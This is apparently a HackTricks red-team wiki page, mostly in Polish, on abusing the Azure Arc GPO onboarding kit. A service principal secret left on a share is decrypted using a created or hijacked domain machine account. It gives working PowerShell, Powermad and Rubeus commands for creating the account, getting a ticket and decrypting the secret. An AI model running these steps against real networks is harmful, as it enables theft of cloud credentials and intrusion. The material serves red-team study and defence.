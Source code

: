 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc umożliwia integrację nowych wewnętrznych serwerów (serwery dołączone do domeny) z Azure Arc za pomocą metody obiektów zasad grupy (GPO). Aby to ułatwić, Microsoft dostarcza zestaw narzędzi do wdrażania niezbędny do rozpoczęcia procedury onboardingu. W pliku ArcEnableServerGroupPolicy.zip znajdują się następujące skrypty: DeployGPO.ps1, EnableAzureArc.ps1 oraz AzureArcDeployment.psm1.

Po uruchomieniu skrypt DeployGPO.ps1 wykonuje następujące czynności:

1. Tworzy GPO onboardingu serwerów Azure Arc w lokalnej domenie.
2. Kopiuje skrypt onboardingu EnableAzureArc.ps1 do wyznaczonego udziału sieciowego utworzonego na potrzeby procesu onboardingu, który zawiera również pakiet instalacyjny Windows.

Podczas uruchamiania tego skryptu, administratorzy systemu muszą podać dwa główne parametry: **ServicePrincipalId** oraz **ServicePrincipalClientSecret**. Dodatkowo wymaga innych parametrów, takich jak domena, FQDN serwera hostującego udział oraz nazwa udziału. Dalsze szczegóły, takie jak identyfikator najemcy, grupa zasobów i inne niezbędne informacje, muszą być również dostarczone do skryptu.

Szyfrowany sekret jest generowany w katalogu AzureArcDeploy na określonym udziale przy użyciu szyfrowania DPAPI-NG. Szyfrowany sekret jest przechowywany w pliku o nazwie encryptedServicePrincipalSecret. Dowody na to można znaleźć w skrypcie DeployGPO.ps1, gdzie szyfrowanie jest realizowane przez wywołanie ProtectBase64 z $descriptor i $ServicePrincipalSecret jako wejściami. Deskryptor składa się z SID-ów grupy komputerów domenowych i kontrolerów domeny, co zapewnia, że ServicePrincipalSecret może być odszyfrowany tylko przez grupy zabezpieczeń kontrolerów domeny i komputerów domenowych, jak zauważono w komentarzach skryptu.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Mamy następujące warunki:

1. Sukcesywnie przeniknęliśmy do wewnętrznej sieci.
2. Mamy możliwość utworzenia lub przejęcia kontroli nad kontem komputera w Active Directory.
3. Odkryliśmy udział sieciowy zawierający katalog AzureArcDeploy.

Istnieje kilka metod uzyskania konta maszyny w środowisku AD. Jedną z najczęstszych jest wykorzystanie kwoty konta maszyny. Inną metodą jest kompromitacja konta maszyny poprzez podatne ACL lub różne inne błędne konfiguracje.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Gdy konto maszyny zostanie uzyskane, możliwe jest uwierzytelnienie się za pomocą tego konta. Możemy użyć polecenia runas.exe z flagą netonly lub użyć pass-the-ticket z Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Mając TGT dla naszego konta komputera przechowywane w pamięci, możemy użyć następującego skryptu do odszyfrowania sekretu głównego usługi.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatywnie, możemy użyć [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Na tym etapie możemy zebrać pozostałe informacje potrzebne do połączenia z Azure z pliku ArcInfo.json, który jest przechowywany w tym samym udostępnionym zasobie sieciowym co plik encryptedServicePrincipalSecret. Plik ten zawiera szczegóły takie jak: TenantId, servicePrincipalClientId, ResourceGroup i inne. Z tymi informacjami możemy użyć Azure CLI do uwierzytelnienia się jako skompromitowany service principal.

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
